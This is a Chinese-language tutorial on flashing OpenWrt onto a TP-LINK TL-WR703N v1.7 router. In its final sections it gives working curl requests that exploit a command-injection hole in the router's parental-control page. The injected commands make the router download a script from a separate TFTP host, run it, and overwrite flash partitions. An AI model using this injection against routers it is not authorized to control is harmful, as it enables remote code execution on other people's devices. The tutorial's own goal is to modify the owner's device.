

# TP-LINK TL-WR703N v1.7 openwrt flashing

> 喜欢请[star](https://github.com/ahangchen/windy-afternoon/blob/master/linux/raspbian/tlwr703n_openwrt.md)，转载请注明作者[梦里茶](https://github.com/ahangchen)

TP-LINK TL-WR703N是一个小型的路由器，可以有线转WiFi，3G转WiFi，很多人拿它刷openwrt系统，然后可以在上面各种搞事。



## V1.7以前

通常刷openwrt的做法是，

* 下载一个openwrt [factory固件](http://downloads.openwrt.org/attitude_adjustment/12.09/ar71xx/generic/openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin)
* 打开路由器，
* 笔记本连接路由器发出来的WiFi，比如：TP-LINK-90-1B-18
* 在浏览器输入192.168.1.1，选择左边“系统工具”-“软件升级”-“浏览”
* 找到刚刚下载的镜像bin文件，确定
* 然后就会自动把openwrt刷到板子里边了

## V1.7以后

然而！上面的方法只有在2012年12月以前生产的WR703N上（型号在FW build 121204以前的）才有用，在之后的板子上，选择完bin文件会提示“上传的文件与硬件版本不符”，导致无法从web管理界面刷写系统！具体来讲，如果你的型号（这个在路由器管理界面可以看到）跟我的一样是3.17.1 Build 140120 Rel.56593n，那么恭喜你中奖了，只能通过下面这种方式或者TTL硬件方式刷openwrt。

原因是，2012年12月之后的系统升级，对bin文件做了RSA签名校验，无法刷第三方的系统。

一番搜索之后发现有个[国外的牛人](https://pastebin.com/0wzMthfr)利用TP-LINK家长控制的漏洞，让路由板执行一些代码，成功刷写openwrt系统，这个方法的英文版也被放到了openwrt wr703n的官方wiki上，可以说是相当靠谱了，国内有人也整理了一个[中文版](https://boweihe.me/2015/11/02/wr703n-v1-7-破解openwrt（提示密码错误等问题的解决）/)，但有些步骤还是不够详细，于是我整理了一个完整的版出来，让大家少踩一些坑。windows的同学可以参考这个中文版，不过里边有些链接失效了，可以参考我这篇去找对应的工具。

## 搭建tftp服务器

因为我们会先把镜像下载并处理好放在一个ftp服务器上，所以需要另一台电脑扮演这个角色

* 以MacOS为例，MacOS是内置了tftp服务器的，不需要另外安装，
* 默认的ftp服务器会把将`/private/tftpboot`这个目录作为根目录
* 修改这个目录的权限

```text
sudo chmod 777 /private/tftpboot
sudo chmod 777 /private/tftpboot/*
```

* 启动tftp服务

```text
sudo launchctl load -F /System/Library/LaunchDaemons/tftp.plist
sudo launchctl start com.apple.tftpd
```

* 测试，在另一台电脑上，以Ubuntu为例，安装tftp客户端

```text
cwh@cwh-Matrimax-PC:sudo apt-get install tftp
cwh@cwh-Matrimax-PC:~$ tftp
(to) 192.168.2.210
tftp> get aa
```

把Ubuntu和mac放在一个局域网里，mac的ip是192.168.2.210，在mac的`/private/tftpboot`目录下有一个名为aa的文件，执行`get aa`之后，会发现Ubuntu的home目录下多了一个aa文件，也就是文件传送成功了。

## 准备工具

* \*Nix系统下curl，dd，都是自带的，不用下载，
* 下载busybox，这个是用来在wr703n上执行dd和reboot命令用的，默认的命令行执行不了

```text
curl https://busybox.net/downloads/binaries/1.21.1/busybox-mips > busybox
```

链接有可能失效，可以谷歌搜索busybox binary download，下载mips版本的

* 下载openwrt固件并拆分成两份（因为wr703n的内存很小，可能传输的时候传不了整个文件）

```text
curl https://downloads.openwrt.org/snapshots/trunk/ar71xx/generic/openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin -o openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin
dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i1 bs=1 count=1048576
dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i2 bs=1 skip=1048576
```

* 将busybox, 拆开的固件i1, i2放到tftp服务器目录`/private/tfboot`下

## 编写Hack脚本

* 进入tftp服务器目录
* 新建文件aa（很随意的一个名字），里边内容为：

```text
cd /tmp
tftp -gl i1 192.168.1.100
tftp -gl i2 192.168.1.100
tftp -gl busybox 192.168.1.100
chmod 755 busybox
./busybox dd if=i1 of=/dev/mtdblock1 conv=fsync
./busybox dd if=i2 of=/dev/mtdblock2 conv=fsync
reboot -f
```

解释一下每行代码

```text
cd /tmp
tftp -gl i1 192.168.1.100 # 把i1从tftp服务器下载下来，这里的ip应该是，你的tftp服务器连接路由器之后，ifconfig看到的ip
tftp -gl i2 192.168.1.100 # 把i2从tftp服务器下载下来
tftp -gl busybox 192.168.1.100 # 把busybox从tftp服务器下载下来
chmod 755 busybox  # 修改busybox权限以执行命令
./busybox dd if=i1 of=/dev/mtdblock1 conv=fsync # 将i1写入磁盘分区
./busybox dd if=i2 of=/dev/mtdblock2 conv=fsync # 将i2写入磁盘分区
reboot -f # 重启，会启动openwrt
```

至此，你的tftp目录下应该有4个文件：i1, i2, aa, busybox，缺一不可

## Hack into TL-WR703N

这个方法是利用TPLINK家长控制漏洞，以curl的方式执行命令，让路由器从tftp服务器上下载脚本，执行命令，从而将openwrt固件写入路由器

> 【警告】以下步骤可能导致你的路由器变砖，请确认当前的路由器固件版本是3.17.1 Build 140120. 下述全过程请勿断开连接或是断开电源，本人不对产生的任何后果负责！另外，每一步都很重要，别忽略其中任何一步。一旦变砖，请用3.3V的串口线抢救

* 首先长按reboot按钮将路由器恢复出厂设置
* 将tftp服务器（这里是Mac）通过WiFi的方式连接到路由器，ifconfig记住自己的ip，我的是192.168.1.100
* 在tftp服务器上（连接到路由器的另外一台机器也行）执行
* 修改密码为admin42

```text
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=true' 'http://192.168.1.1/'
```

注意这里的192.168.1.1是路由器的ip地址, 这个步骤只会更改路由器家长控制的默认密码，刷完openwrt之后会恢复为openwrt的默认密码的

* 启用家长控制（利用漏洞）

```text
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=' --referer 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm' 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?ctrl_enable=1&parent_mac_addr=00-00-00-00-00-02&Page=1'
```

* 让路由器从tftp服务器下载并执行脚本

```text
curl -o - -b 'tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=' --referer 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?Modify=0&Page=1' 'http://192.168.1.1/userRpm/ParentCtrlRpm.htm?child_mac=00-00-00-00-00-01&lan_lists=888&url_comment=test&url_0=;cd%20/tmp;&url_1=;tftp%20-gl%20aa%20192.168.1.100;&url_2=;sh%20aa;&url_3=&url_4=&url_5=&url_6=&url_7=&scheds_lists=255&enable=1&Changed=1&SelIndex=0&Page=1&rule_mode=0&Save=%B1%A3+%B4%E6'
```

等待大约三分钟，路由器会重启进入openwrt系统，状态灯会闪烁一会儿

## 进入openwrt系统

后边可以参考这位大兄弟写的[教程](https://gist.github.com/ninehills/2627163#初始配置2)，挺详细的了

